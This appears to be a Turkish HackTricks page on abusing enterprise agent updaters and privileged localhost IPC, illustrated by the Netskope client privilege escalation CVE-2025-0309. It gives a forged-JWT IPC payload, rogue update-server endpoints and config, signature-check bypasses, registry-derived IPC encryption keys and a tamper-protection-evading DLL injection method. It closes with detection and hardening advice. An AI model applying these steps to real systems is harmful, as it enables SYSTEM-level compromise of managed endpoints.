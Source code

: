 # Kurumsal Otomatik Güncelleyicilerin ve Ayrıcalıklı IPC'nin Kötüye Kullanımı (ör. Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

Bu sayfa, düşük sürtünmeli bir IPC yüzeyi ve ayrıcalıklı bir güncelleme akışı açığa çıkaran kurumsal endpoint ajanlarında ve updaters'larda bulunan Windows local privilege escalation zincirlerinin bir sınıfını genelleştirir. Temsili bir örnek, düşük ayrıcalıklı bir kullanıcının kaydı saldırgan kontrolündeki bir sunucuya zorlayabileceği ve ardından SYSTEM servisi tarafından kurulacak kötü niyetli bir MSI teslim edebileceği Netskope Client for Windows < R129 (CVE-2025-0309) durumudur.

Benzer ürünlere karşı tekrar kullanabileceğiniz temel fikirler:
- Ayrıcalıklı bir servisin localhost IPC'sini, yeniden kayıt veya yeniden yapılandırmayı saldırgan sunucuya zorlamak için kötüye kullanın.
- Vendor’ın update endpoint'lerini uygulayın, kötü niyetli bir Trusted Root CA teslim edin ve updater'ı kötü niyetli, “signed” bir pakete yönlendirin.
- Zayıf signer kontrollerinden (CN allow‑lists), isteğe bağlı digest bayraklarından ve gevşek MSI özelliklerinden kaçının.
- Eğer IPC “encrypted” ise, key/IV'yi registry'de saklanan ve herkesin okuyabildiği makine tanımlayıcılarından türetin.
- Servis çağıranları image path/process name ile kısıtlıyorsa, allow‑listed bir sürece inject edin veya bir tane suspended olarak spawn edip minimal bir thread‑context patch ile DLL'inizi bootstrap edin.

---
## 1) localhost IPC üzerinden saldırgan sunucuya kayıt zorlamak

Birçok ajan, JSON kullanarak localhost TCP üzerinden bir SYSTEM servisiyle konuşan user‑mode bir UI process ile gelir.

Netskope'ta gözlemlendi:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Exploit akışı:
1) Backend host'u kontrol eden claim'lere (ör. AddonUrl) sahip bir JWT enrollment token oluşturun. alg=None kullanın böylece imza gerekmeyecektir.
2) JWT'niz ve tenant adı ile provisioning komutunu çağıran IPC mesajını gönderin:
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) Servis, enrollment/config için sahte sunucunuza istek göndermeye başlar, örneğin:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Notlar:
- Eğer çağıran doğrulaması path/name‑bazlıysa, isteği allow‑listed bir vendor binary'den başlatın (bkz. §4).

---
## 2) Hijacking the update channel to run code as SYSTEM

İstemci sunucunuzla iletişim kurduktan sonra, beklenen endpoints'leri uygulayın ve onu saldırgan MSI'sine yönlendirin. Tipik sıralama:

1) /v2/config/org/clientconfig → JSON konfigürasyonunu çok kısa bir güncelleme aralığıyla döndürün, örneğin:
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → Bir PEM CA sertifikası döndürür. Servis bunu Local Machine Trusted Root deposuna yükler.
3) /v2/checkupdate → Zararlı bir MSI'ya ve sahte bir sürüme işaret eden metadata sağlar.

Gerçek dünyada görülen yaygın kontrollerin atlatılması:
- Signer CN allow‑list: servis yalnızca Subject CN'nin “netSkope Inc” veya “Netskope, Inc.” olup olmadığını kontrol edebilir. Kötü niyetli CA'nız bu CN ile bir leaf sertifikası verebilir ve MSI'yı imzalayabilir.
- CERT_DIGEST property: CERT_DIGEST adlı zararsız bir MSI özelliği ekleyin. Kurulum sırasında uygulanmıyor.
- Optional digest enforcement: config bayrağı (ör., check_msi_digest=false) ek kriptografik doğrulamayı devre dışı bırakır.

Sonuç: SYSTEM servisi MSI'nızı C:\ProgramData\Netskope\stAgent\data\*.msi konumundan kurar ve NT AUTHORITY\SYSTEM olarak rastgele kod çalıştırır.

---
## 3) Forging encrypted IPC requests (when present)

R127'den itibaren, Netskope IPC JSON'u Base64 görünen encryptData alanına sardı. Tersine mühendislik, AES'in key/IV'nin herhangi bir kullanıcı tarafından okunabilen registry değerlerinden türetildiğini gösterdi:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Saldırganlar şifrelemeyi çoğaltıp normal bir kullanıcıdan geçerli şifreli komutlar gönderebilir. Genel ipucu: bir agent aniden “encrypts” its IPC ise, malzeme olarak HKLM altında device ID'leri, product GUID'leri, install ID'leri arayın.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Bazı servisler TCP bağlantısının PID'sini çözerek eş tarafı doğrulamaya çalışır ve image path/name'i Program Files altında izin listesinde olan vendor binary'lerle karşılaştırır (örn., stagentui.exe, bwansvc.exe, epdlp.exe).

İki pratik atlatma yöntemi:
- Allow‑list'lenmiş bir sürece (örn. nsdiag.exe) DLL injection yapıp onun içinden IPC'yi proxy'lemek.
- Izin listesinde olan bir binary'yi suspended olarak başlatıp CreateRemoteThread kullanmadan proxy DLL'inizi bootstrap ederek driver tarafından uygulanan tahrif kurallarını karşılamak (bkz. §5).

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

Ürünler genellikle korumalı süreçlerin handle'larından tehlikeli hakları kaldırmak için minifilter/OB callbacks içeren bir driver (örn. Stadrv) ile gelir:
- Process: PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME haklarını kaldırır
- Thread: THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE ile sınırlar

Bu kısıtlamalara saygı gösteren güvenilir bir user‑mode loader:
1) Vendor binary için CREATE_SUSPENDED ile CreateProcess çağrısı.
2) Hâlâ elde edebildiğiniz handle'ları alın: process üzerinde PROCESS_VM_WRITE | PROCESS_VM_OPERATION ve bir thread handle'ı için THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (veya kodu bilinen bir RIP'te patchliyorsanız sadece THREAD_RESUME).
3) ntdll!NtContinue (veya başka erken, garantili‑mapped thunk) üzerine, DLL yolunuzda LoadLibraryW çağıran ve sonra geri atlayan küçük bir stub yazın.
4) ResumeThread ile stub'unuzun süreç içinde tetiklenmesini sağlayın ve DLL'inizi yükleyin.

Zaten korumalı bir süreç üzerinde PROCESS_CREATE_THREAD veya PROCESS_SUSPEND_RESUME kullanmadığınız için (süreci siz oluşturduğunuzdan), driver politikası sağlanmış olur.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) kötü niyetli bir CA, zararlı MSI imzalama ve gereken endpoint'leri otomatikleştirir: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope, rastgele (isteğe bağlı olarak AES‑encrypted) IPC mesajları oluşturan ve izin listesinde olan bir binary'den başlayacak şekilde suspended‑process injection içeren özel bir IPC client'tır.

---
## 7) Detection opportunities (blue team)
- Local Machine Trusted Root'a eklemeleri izleyin. Sysmon + registry‑mod eventing (bkz. SpecterOps rehberliği) iyi çalışır.
- Agent servisinin C:\ProgramData\<vendor>\<agent>\data\*.msi gibi yollarından başlattığı MSI yürütmelerini işaretleyin.
- Beklenmeyen enrollment hostları/tenant'lar için agent log'larını gözden geçirin, örn.: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – addonUrl / tenant anomalilerine ve provisioning msg 148'e bakın.
- Beklenen imzalı binary'ler olmayan veya sıra dışı child process ağaçlarından kaynaklanan localhost IPC istemcileri için alarm oluşturun.

---
## Hardening tips for vendors
- Enrollment/update hostlarını sıkı bir allow‑list'e bağlayın; clientcode içinde güvenilmeyen domainleri reddedin.
- IPC eşlerini image path/name kontrolleri yerine OS primitive'ları ile doğrulayın (ALPC security, named‑pipe SIDs).
- Gizli materyali world‑readable HKLM'den uzak tutun; IPC şifrelenmesi gerekiyorsa anahtarları korunmuş sırlar üzerinden türetin veya kimlik doğrulanmış kanallar üzerinden pazarlık (negotiate) yapın.
- Updater'ı bir supply‑chain yüzeyi olarak ele alın: kontrolünü elinizde tuttuğunuz güvenilen bir CA'ya tam zincir gerektirin, paket imzalarını pinned anahtarlar ile doğrulayın ve config'te doğrulama devre dışıysa kapatın (fail closed).

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}
